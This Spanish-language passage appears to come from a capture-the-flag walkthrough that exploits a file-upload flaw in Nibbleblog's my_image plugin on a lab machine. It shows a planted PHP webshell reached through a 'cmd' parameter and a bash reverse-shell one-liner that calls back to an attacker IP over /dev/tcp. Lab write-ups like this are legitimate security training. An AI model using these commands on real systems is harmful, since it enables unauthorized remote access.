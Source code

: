 ![](/assets/img/commons/FileUpload/terminal1.png)
una vez guardada vemos en los directorios que guarda el archivo en my_image ya está nuestro payload almacenado solo que aquí cambio mi nombre de reverse.php a image.php ya que por detrás esta asi configurado quitando nuestro nombre que pusimos en el archivo por (image) pero de todas formas no debería de ver ningun problema si nuestra integridad del payload no es modificada 
![](/assets/img/commons/FileUpload/terminal2.png)
si todo va bien al darle click en nuestro payload 'image.php' no debería de suceder nada hasta que mandemos a llamar a nuestra función que establecimos que es 'cmd',quedando de la siguiente forma:
```console
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?cmd= (aqui es donde ejecutarás el comando a desear)
```
en mi caso para ver si tengo un RCE en esta pequeña webshell ejecuté el comando id y efectivamente vemos que ya nos muestra el UID y el GID del usuario especificado, además de sus grupos secundarios
![](/assets/img/commons/FileUpload/terminal3.png)
asi que en este punto para interactuar mas comodamente te puedes enviar una reverse shell y acceder al sistema desde tu terminal
```console
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.12/443 0>%261'
```